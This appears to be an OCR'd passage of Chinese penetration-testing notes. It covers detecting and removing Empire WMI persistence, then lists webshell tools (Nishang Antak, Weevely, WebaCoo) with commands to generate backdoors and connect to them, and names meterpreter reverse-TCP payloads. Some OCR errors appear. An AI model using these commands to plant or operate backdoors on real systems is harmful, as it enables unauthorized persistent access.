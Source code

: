 ```
Empire Invoke-WMl模块
powershell/persistence/elevated/wmi

检查目标主机情况：
Get-WMIObject -Namespace root\Subscription -Class CommandLine EventConsumer -Fifter "Name='Update'"

修复：
删除自动运行的恶意wmi条目
使用Get-WMIObject命令删除持久化相关组件
```

### WEB后门

- Nishang

```
\nishang\Antak-WebShell目录下
```
- Weevely

```
https://github.com/epinna/weevely3
```
```
weevely 查看帮助
weevely <URl> <password> [cmd] 连接木马
weevely session <path>[cmd] 加载会话
weevely generate <password><path> 生成后门代理

weevely http://xxx.xxx.xxx.xxx/test.php test

system_info 系统信息
net_scan扫描端口
help 查看命令
```

- webacoo后门

```
webacoo -h 查看帮助
webacoo -g -o /root/test.php 生成webshell

webacoo -t -u http://xxxtest/php
load  查看模块
```
- ASPX meterpreter
 
```
shell_reverse_tcp payload
```

- PHP meterpreter

```
php meterpreter payload
```
